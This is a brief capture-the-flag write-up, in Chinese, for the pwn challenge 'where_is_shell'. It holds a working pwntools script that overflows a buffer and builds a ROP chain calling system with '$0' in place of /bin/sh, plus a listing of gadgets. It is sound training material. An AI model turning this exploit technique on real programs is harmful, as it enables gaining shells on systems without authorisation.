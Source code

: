 ### where_is_shell
### 考点：用$0的机器码代替/bin/sh拿到shell\

![[Pasted image 20240918231511.png]]

![[Pasted image 20240918231450.png]]
收获：/bin/sh可以用$0代替，而其机械码就是\\x24\\x30，这题就是用的这个方法，同时还可以用sh。


WP
```
from pwn import*

p = process('./shell')
elf = ELF('./shell')
sys=elf.symbols['system']
p.recvuntil("zltt lost his shell, can you find it?")
pay=b'a'*0x18+p64(0x400416)+p64(0x4005e3)+p64(0x400541)+p64(sys)

# Gadgets information

========================================================
# 0x00000000004005dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005de : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005e0 : pop r14 ; pop r15 ; ret
# 0x00000000004005e2 : pop r15 ; ret
# 0x00000000004005db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005df : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004004b8 : pop rbp ; ret
# 0x00000000004005e3 : pop rdi ; ret
# 0x00000000004005e1 : pop rsi ; pop r15 ; ret
# 0x00000000004005dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400416 : ret 

p.send(pay)
p.interactive()
```


